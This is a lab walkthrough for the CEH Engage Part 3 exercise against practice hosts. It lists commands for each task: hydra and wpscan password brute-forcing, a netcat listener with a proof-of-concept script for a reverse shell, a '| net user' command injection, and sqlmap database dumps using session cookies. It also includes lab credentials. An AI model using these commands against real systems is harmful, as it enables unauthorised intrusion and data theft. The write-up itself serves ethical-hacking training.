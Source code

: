 # 3⃣ CEH Engage Part 3

You have been assigned a task to perform a clickjacking test on www.certifiedhacker.com that the CEHORG members widely use. Find out whether the site is vulnerable to clickjacking.

### GhostEye

<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

### Nikto

<figure><img src="../../.gitbook/assets/image (115).png" alt=""><figcaption></figcaption></figure>





Perform an HTTP-recon on www.certifiedhacker.com and find out the version of Nginx used by the web server.



### BillCipher

<figure><img src="../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

### Whatweb

<figure><img src="../../.gitbook/assets/image (117).png" alt=""><figcaption></figcaption></figure>



An FTP site is hosted on a machine in the CEHORG network. Crack the FTP credentials, obtain the “flag.txt” file and determine the content in the file.

```
nmap -p 21 172.16.0.0/24

nmap -p 21 10.10.10.0/24

nmap -p 21 192.168.0.0/24
```

```
hydra -L <username.txt> -P <password.txt> ftp://172.16.0.12
```

<figure><img src="../../.gitbook/assets/image (118).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (176).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (177).png" alt=""><figcaption></figcaption></figure>







Perform web application reconnaissance on movies.cehorg.com and find out the HTTP server used by the web application.

### Whatweb

```
whatweb movies.cehorg.com
```

<figure><img src="../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

### Nmap

<figure><img src="../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>





Identify the load balancing service used by eccouncil.org.&#x20;

```
ldb eccouncil.org
```

\-> cloudflare

<figure><img src="../../.gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>



Identify the Content Management System used by www.cehorg.com.

```
wig www.cehorg.com
```

<figure><img src="../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>



Perform a bruteforce attack on www.cehorg.com and find the password of user adam.

```
wpscan --url http://cehorg.com/wp-login.php -U <username.txt> -P <password.txt>
```

<figure><img src="../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

Perform parameter tampering on movies.cehorg.com and find out the user for id 1003.

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Type the username as "Jason" and password as "welcome"

\
We found this username and password in the engage part 2. While dumping the wireshark capture data. REMEMBER?
{% endhint %}

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>





You have identified a vulnerable web application on a Linux server at port 8080. Exploit the web application vulnerability, gain access to the server and enter the content of RootFlag.txt as the answer.

```
nmap -p 8080 172.16.0.0/24

nmap -p 8080 10.10.10.0/24

nmap -p 8080 192.168.0.0/24
```



#### Extract and Setup Jdk

```
tar -xf jdk-8u202-linux-x64.tar.gz

mv jdk1.8.0_202 /usr/bin
```

#### Update the JDK Path in the Poc.py file

{% hint style="info" %}
Change Line no: 62, replace jdk1.8.0\_20/bin/javac with "/usr/bin/jdk1.8.0\_202/bin/javac"

\
Change Line no: 87, replace jdk1.8.0\_20/bin/java with "/usr/bin/jdk1.8.0\_202/bin/java"\
\
Change Line no: 99, replace jdk1.8.0\_20/bin/java with "/usr/bin/jdk1.8.0\_202/bin/java"
{% endhint %}

#### Create a Netcat Listener

```
nc -lvp 9001
```

#### Create a Payload

```
python3 poc.py --userip 10.10.1.13 --webport 8080 --lport 9001
```



{% hint style="info" %}
Copy the send me payload and paste in the username field and enter any random password and press Login
{% endhint %}



<figure><img src="../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>



Perform command injection attack on 10.10.10.25 and find out how many user accounts are registered with the machine. Note: Exclude admin/Guest user

```
| net user
```

<figure><img src="../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>













A file named Hash.txt has been uploaded through DVWA (http://10.10.10.25:8080/DVWA). The file is located in the directory mentioned below. Access the file and crack the MD5 hash to reveal the original message; enter the content after cracking the hash. You can log into the DVWA using the following credentials. Note: Username- admin; Password- password Path: C:\wamp64\www\DVWA\hackable\uploads\Hash.txt Hint: Use “type” command to view the file. Use the following link to decrypt the hash- https://hashes.com/en/decrypt/hash

{% embed url="https://hashes.com/en/decrypt/hash" %}

<figure><img src="../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>



Perform Banner grabbing on the web application movies.cehorg.com and find out the ETag of the respective target machine.

<figure><img src="../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>



Perform Web Crawling on the web application movies.cehorg.com and identify the number of live png files in images folder.

<figure><img src="../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>



Perform XSS vulnerability test on www.cehorg.com and identify whether the application is vulnerable to attack or not. (Yes/No).

\-> No

### PwnXSS

```
python3 pwnxss.py -u http://www.cehorg.com
```



### OWASP ZAP

<figure><img src="../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>



Perform a SQL Injection attack on movies.cehorg.com and find out the number of users available in the database. Use Jason/welcome as login credentials.

#### Get Database

```
sqlmap -u "http://sometestdb.to/view?id=123&Submit=Submit#" --cookie="PHPSESSID=e3f9231953973ace4acb63cfde2ccc08; security=low" --dbs
```

#### Get Tables

```
sqlmap -u "http://sometestdb.to/view?id=123&Submit=Submit#" --cookie="PHPSESSID=e3f9231953973ace4acb63cfde2ccc08; security=low" -D moviescope --tables
```

#### Get number of Users available

```
sqlmap -u "http://sometestdb.to/view?id=123&Submit=Submit#" --cookie="PHPSESSID=e3f9231953973ace4acb63cfde2ccc08; security=low" -D moviescope -T UserProfile --count
```

#### Dump Table Data

```
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="<Cookie Value>" -D moviescope -T User_Login --dump
```

#### Dump Databases

```
sqlmap -u "http://sometestdb.to/view?id=123&Submit=Submit#" --cookie="PHPSESSID=e3f9231953973ace4acb63cfde2ccc08; security=low" -D moviescope --dump-all
```

<figure><img src="../../.gitbook/assets/Screenshot from 2023-11-25 15-57-59.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Screenshot from 2023-11-25 15-59-02.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Screenshot from 2023-11-25 15-58-22.png" alt=""><figcaption></figcaption></figure>







CEHORG suspects of a possible session hijacking attack on a machine in its network. The organisation has retained the network traffic data for the session at C:\Users\Admin\Documents in the EH Workstation – 2 as sniffsession.pcap. You have been assigned a task to perform an analysis and find out the protocol that has been used for sniffing on its network.





<figure><img src="../../.gitbook/assets/Screenshot from 2023-11-25 16-02-44.png" alt=""><figcaption></figcaption></figure>
